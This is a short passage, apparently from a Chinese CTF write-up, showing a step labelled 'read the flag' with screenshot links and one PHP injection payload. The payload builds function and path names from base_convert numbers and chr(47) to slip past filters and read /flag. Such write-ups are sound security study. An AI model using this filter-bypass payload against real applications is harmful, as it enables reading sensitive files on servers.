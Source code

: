 [![](assets/1698897244-545bcef7b5a8504d678d9367f702c424.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191027234136-42b38e6c-f8d0-1.png)  
*2、读取 flag*

payload

```plain
var_dump(base_convert(2146934604002,10,36)(chr(47).base_convert(25254448,10,36)))
```

[![](assets/1698897244-df31d36aadca0d490a968230d4fd0d99.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191027234157-4efd00ae-f8d0-1.png)
